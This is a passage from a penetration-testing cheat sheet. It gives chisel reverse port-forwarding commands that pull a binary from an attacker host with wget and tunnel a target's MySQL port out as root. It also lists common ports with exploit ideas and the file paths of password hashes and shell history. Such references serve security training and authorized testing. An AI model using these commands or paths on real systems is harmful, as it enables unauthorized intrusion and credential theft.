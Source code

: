 ```powershell
```

#### Port Forwarding (Linux)
```bash
# Start server on attacking host
./chisel server -p 8000 --reverse

# Transfer binary
wget http://192.168.X.X:8888/chisel -o chisel

# Start client on target (3306 to 6033)
./chisel client 192.168.X.X:8000 R:6033:127.0.0.1:3306

# Interact from attacking host
mysql -h 127.0.0.1 -P 6033 -u root
```

## ⚡ QUICK REFERENCE

### Common Ports & Services
| Port | Service | Common Exploits |
|------|---------|-----------------|
| 21   | FTP     | Anonymous access, default creds |
| 22   | SSH     | Default creds, key-based auth |
| 23   | Telnet  | Default creds, cleartext |
| 25   | SMTP    | User enumeration, relay |
| 53   | DNS     | Zone transfer, recursion |
| 80   | HTTP    | Web attacks, default pages |
| 443  | HTTPS   | Web attacks, SSL issues |
| 445  | SMB     | Anonymous access, password spray |
| 1433 | MSSQL   | xp_cmdshell, linked servers |
| 3389 | RDP     | BlueKeep, credential spray |

### Common File Locations
| OS | Location | Purpose |
|----|----------|---------|
| Linux | /etc/passwd | User accounts |
| Linux | /etc/shadow | Password hashes |
| Linux | /var/log/ | Log files |
| Windows | C:\Windows\System32\config\SAM | Password hashes |
| Windows | C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt | PowerShell history |
| Windows | C:\Windows\Temp\ | Temporary files |

